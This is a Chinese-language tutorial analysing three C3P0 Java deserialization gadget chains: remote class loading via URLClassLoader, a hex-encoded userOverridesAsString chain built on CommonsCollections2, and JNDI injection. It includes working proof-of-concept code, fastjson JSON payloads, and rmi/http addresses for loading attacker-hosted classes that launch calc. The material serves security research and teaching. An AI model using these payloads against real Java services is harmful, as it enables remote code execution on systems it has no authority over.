C3P0链
目录
C3P0？
C3P0是JDBC的一个连接池组件
JDBC:
"JDBC是Java DataBase Connectivity的缩写，它是Java程序访问数据库的标准接口。 使用Java程序访问数据库时，Java代码并不是直接通过TCP连接去访问数据库，而是通过JDBC接口来访问，而JDBC接口则通过JDBC驱动来实现真正对数据库的访问。"
连接池：
"我们在讲多线程的时候说过，创建线程是一个昂贵的操作，如果有大量的小任务需要执行，并且频繁地创建和销毁线程，实际上会消耗大量的系统资源，往往创建和消耗线程所耗费的时间比执行任务的时间还长，所以，为了提高效率，可以用线程池。 类似的，在执行JDBC的增删改查的操作时，如果每一次操作都来一次打开连接，操作，关闭连接，那么创建和销毁JDBC连接的开销就太大了。为了避免频繁地创建和销毁JDBC连接，我们可以通过连接池（Connection Pool）复用已经创建好的连接。"
C3P0：
C3P0是一个开源的JDBC连接池，它实现了数据源和JNDI绑定，支持JDBC3规范和JDBC2的标准扩展。 使用它的开源项目有Hibernate、Spring等。
Gadget
C3P0链的相关依赖及版本，从ysoserial中可以看到
C3P0 @mbechler c3p0:0.9.5.2, mchange-commons-java:0.2.11
pom.xml，maven中添加此组件会自动加载mchange-commons-java这个包
<dependencies>
<dependency>
<groupId>com.mchange</groupId>
<artifactId>c3p0</artifactId>
<version>0.9.5.2</version>
</dependency>
</dependencies>
URLClassLoader
这条链在许多文章中也被称为http base链。
在PoolBackedDataSourceBase类（抽象类）的writeObject方法中有如下内容

该方法会尝试将当前对象的connectionPoolDataSource属性进行序列化，如果不能序列化便会在catch块中对connectionPoolDataSource属性用ReferenceIndirector.indirectForm方法处理后再进行序列化操作。我们跟进ReferenceIndirector.indirectForm方法。

此方法会调用connectionPoolDataSource属性的getReference方法，并用返回结果作为参数实例化一个ReferenceSerialized对象，然后将ReferenceSerialized对象返回，ReferenceSerialized被序列化。 下图是ReferenceSerialized构造方法，结合上文可以发现，其reference对象是人为可控的。

尽然说到了PoolBackedDataSourceBase的writeObject方法，有序列化肯定就有反序列化，那自然而然到PoolBackedDataSourceBase的readObject方法看看。

可以看到会调用序列流中的对象的getObject方法，结合上文，如果ReferenceSerialized被序列化到了序列流中，那么这里可以是ReferenceSerialized#getObject，我们进行跟进。 跟进后可以发现调用了ReferenceableUtils.referenceToObject这个静态方法，再度进行跟进

由于ref是在序列化的时候可以控制的参数，那么fClassName自然也是可以控制的属性。 结合下图黄框中的内容不难发现，我们可以通过URLClassLoader实例化远程类，造成任意代码执行。

POC
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import com.mchange.v2.naming.ReferenceIndirector;
import javax.naming.Name;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.Naming;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;
public class c3p {
public static void main(String[] args) throws Exception{
PoolBackedDataSourceBase a = new PoolBackedDataSourceBase(false);
Class clazz = Class.forName("com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase");
Field f1 = clazz.getDeclaredField("connectionPoolDataSource"); //此类是PoolBackedDataSourceBase抽象类的实现
f1.setAccessible(true);
f1.set(a,new evil());
ObjectOutputStream ser = new ObjectOutputStream(new FileOutputStream(new File("a.bin")));
ser.writeObject(a);
ser.close();
ObjectInputStream unser = new ObjectInputStream(new FileInputStream("a.bin"));
unser.readObject();
unser.close();
}
public static class evil implements ConnectionPoolDataSource, Referenceable {
public PrintWriter getLogWriter () throws SQLException {return null;}
public void setLogWriter ( PrintWriter out ) throws SQLException {}
public void setLoginTimeout ( int seconds ) throws SQLException {}
public int getLoginTimeout () throws SQLException {return 0;}
public Logger getParentLogger () throws SQLFeatureNotSupportedException {return null;}
public PooledConnection getPooledConnection () throws SQLException {return null;}
public PooledConnection getPooledConnection ( String user, String password ) throws SQLException {return null;}
@Override
public Reference getReference() throws NamingException {
return new Reference("evilexp","evilexp","http://127.0.0.1:10099/");
}
}
}
public class evilexp {
public evilexp() throws Exception{
Runtime.getRuntime().exec("calc");
}
}


总结
PoolBackedDataSource在序列化时可以序列化入一个任意Reference类，在PoolBackedDataSource反序列化时该Reference类中指定的对象会被URLClassLoader远程加载实例化。
hex base
如果不出网，而且是fastjson或jackson的情况，可以用这个Gadget。
WrapperConnectionPoolDataSourceBase有属性userOverridesAsString及其setter方法setuserOverridesAsString。

这里可以联想到 接下来可能会调用与userOverridesAsString相关方法 可以尝试着写个main函数调用一下setuserOverridesAsString方法，然后在parseUserOverridesAsString打个断点试试，断点命中。 为什么在parseUserOverridesAsString打断点呢，因为这个方法中有与反序列化操作相关的字眼（黄框中）
public static void main(String[] args) throws Exception{
a.setUserOverridesAsString("123");
}


parseUserOverridesAsString会先把userOverrideAsString属性进行截取（也就是上图中userOverrideAsString属性中HexAsciiSerializedMap后面的部分），然后将其视为十六进制数据转化成byte，然后调用SerializableUtils.fromByteArray对其进行处理

SerializableUtils.fromByteArray会对byte进行反序列化处理。
在fastjson，jackson等环镜下，userOverridesAsString属性可控，导致可以从其setter方法setuserOverridesAsString开始到最后deserializeFromByteArray对其调用readObject进行反序列化，造成反序列化漏洞。
POC
用cc2链打的
import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
public class c3p {
public static void main(String[] args) throws Exception{
PriorityQueue a = go();
ObjectOutputStream ser0 = new ObjectOutputStream(new FileOutputStream(new File("a.bin")));
ser0.writeObject(a);
ser0.close();
InputStream in = new FileInputStream("a.bin");
byte[] bytein = toByteArray(in);
String Hex = "HexAsciiSerializedMap:"+bytesToHexString(bytein,bytein.length)+"p";
WrapperConnectionPoolDataSource exp = new WrapperConnectionPoolDataSource();
exp.setUserOverridesAsString(Hex);
ObjectOutputStream ser = new ObjectOutputStream(new FileOutputStream(new File("b.bin")));
ser.writeObject(exp);
ser.close();
ObjectInputStream unser = new ObjectInputStream(new FileInputStream("b.bin"));
unser.readObject();
unser.close();
}
public static PriorityQueue go() throws Exception{
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"calc.exe"})});
TransformingComparator comparator = new TransformingComparator(chain);
PriorityQueue queue = new PriorityQueue(1);
queue.add(1);
queue.add(2);
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,comparator);
return queue;
}
public static byte[] toByteArray(InputStream in) throws IOException {
byte[] classBytes;
classBytes = new byte[in.available()];
in.read(classBytes);
in.close();
return classBytes;
}
public static String bytesToHexString(byte[] bArray, int length) {
StringBuffer sb = new StringBuffer(length);
for(int i = 0; i < length; ++i) {
String sTemp = Integer.toHexString(255 & bArray[i]);
if (sTemp.length() < 2) {
sb.append(0);
}
sb.append(sTemp.toUpperCase());
}
return sb.toString();
}
}
fastjson exp
{
"a": {
"@type": "java.lang.Class",
"val": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource"
},
"b": {
"@type": "com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
"userOverridesAsString": "HexAsciiSerializedMap:hex编码内容;"
}
}
总结
在fastjson，jackson环境中可用，比起下文JNDI Gadget，此Gadget更适合在不出网环境下利用 WrapperConnectionPoolDataSource的父类中存在属性userOverridesAsString及其setter方法，setter方法会将userOverridesAsString中的包含的Hex信息转换成一个byte属性，然后将此byte属性反序列化。
jndi
同样也是在fastjson，jackson环境中可用。jndi适用于jdk8u191以下支持reference情况

首先JndiRefConnectionPoolDataSource类中有属性jndiname及其setter方法 其setter方法会调用内部的JndiRefForwardingDataSource对象的setJndiName方法，改变JndiRefForwardingDataSource#jndiname的值

其次JndiRefConnectionPoolDataSource类中有LoginTimeout属性及其setter方法 其setter方法会调用内部WrapperConnectionPoolDataSource对象的setLoginTimeout方法，追踪后会发现来到JndiRefForwardingDataSource#setLoginTimeout

我们跟进JndiRefForwardingDataSource#inner，它会调用JndiRefForwardingDataSource#dereference，再度跟进 此方法中会根据JndiRefForwardingDataSource#jndiName属性进行lookup问询，而jndiName属性从上文看是可以被JndiRefConnectionPoolDataSource#setter方法控制的。

那么在fastjson，jackson等环境下，调用JndiRefConnectionPoolDataSource类的jndiname，logintimeout属性setter方法，向jndiname传入恶意RMI服务器地址，然后调用logintimeout的setter方法使受害机去lookup设置好的jndiname中的恶意地址，造成JNDI注入。
POC
public class c3p {
public static void main(String[] args) throws Exception{
JndiRefConnectionPoolDataSource exp = new JndiRefConnectionPoolDataSource();
exp.setJndiName("rmi://127.0.0.1:10099/exp");
exp.setLoginTimeout(1);
}
}
fastjson exp:
String poc = "{\"object\":[\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\",{\"jndiName\":\"rmi://localhost:8088/Exploit\", \"loginTimeout\":0}]}"
总结
在fastjson，jackson等环境下，调用JndiRefConnectionPoolDataSource类的jndiname，logintimeout属性setter方法，向jndiname传入恶意RMI服务器地址，然后调用logintimeout的setter方法使受害机去lookup设置好的jndiname中的恶意地址，造成JNDI注入。